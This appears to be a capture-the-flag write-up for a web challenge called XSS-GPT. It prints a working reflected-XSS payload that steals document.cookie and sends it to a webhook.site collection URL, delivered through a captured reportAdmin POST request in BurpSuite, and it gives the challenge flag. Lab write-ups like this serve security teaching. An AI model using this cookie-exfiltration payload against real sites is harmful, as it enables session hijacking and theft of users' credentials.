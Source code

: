 ## XSS-GPT
![image](https://github.com/user-attachments/assets/8479e899-7598-44fc-b4e0-c80bac8e3c72) <br>

# Description :
I built a chatgpt website using chatgpt. Feel free to try it! Remember to report to me if you found any bug

# Solution :

![image](https://github.com/user-attachments/assets/cd35f7db-48be-43b8-853f-879741ba8250) <br>
The challenge will bring us to a link that looks like chatgpt. I'm not allow to progress further as it says I do not have the API key but we can see that we have a lead that we can try to tamper with the API key value with other things
<br>
<br>

![image](https://github.com/user-attachments/assets/cc0c29db-0c5c-4645-bf5b-f5ed15d8480d) <br>
Since the challenge says XSS GPT, I try it rit away and it worked.A little changes is that the XSS payload needs to starts with the closing of </script> else it will not work because the API key part is wrap inside the JS script
<br>
<br>

![image](https://github.com/user-attachments/assets/08b40eda-e0a7-4b3d-9e32-d0166ff15083) <br>
XSS is a success and now we will look for a place to exploit it and get the API key. When going thru the reportAdmin() function will send a POST request to the API's endpoint along with the key. 
<br>
<br>

![image](https://github.com/user-attachments/assets/ce4526ba-a301-4ddc-900a-4b3a7e797624) <br>
Fire up BurpSuite and capture the reportAdmin request and send it to Repeater, we can see that is a POST request and the key is an empty value. With these 2, we can use the webhook method. Our solution will be sending our XSS payload inside the POST request and get the latest changes happen in webhook.site hosting service
<br>
<br>

![image](https://github.com/user-attachments/assets/ca3034f4-b787-4524-9719-41c0d465c2fc) <br>
Search webhook.site, by default they will prepare a hosting site for you, copy it and paste it in BurpSuite <br>
<br>
<br>

![image](https://github.com/user-attachments/assets/66d95877-39ac-4c11-9f66-31f81b186f6d) <br>
We will be using combination of cookie stealing and redirection. To make sure that the request will be redirected to the webhook hosting site we use and steal the cookie.
<br>
<br>

![image](https://github.com/user-attachments/assets/36963aa9-c499-49ef-b70f-9a50613182ea) <br>
The payload will look like this: <br>
</script><script>location.href="https://webhook.site/96439999-db2f-41af-8027-7f1f50a00e31?c="+document.cookie</script> <br>
We encode the payload as URL format because the reportAdmin function specifies the key value must be encodeURIComponent.
<br>
<br>

![image](https://github.com/user-attachments/assets/a1e70c8a-812d-482c-8ecf-d31576d5c866) <br>
Copy the URL encode format XSS payload and replace the null value of the key and send the request. When the Response give you a 200 OK status, we can go to the webhook.site to check for latest changes happen at hosting server.
<br>
<br>

![image](https://github.com/user-attachments/assets/ef6afacc-a7d0-4610-945d-70113e584f18) <br>
The flag is at the query string section. Yatta!
<br>
<br>

**FLAG**
```
SKR{R3flec73D_1n_API_k3y_e9bc37}
```
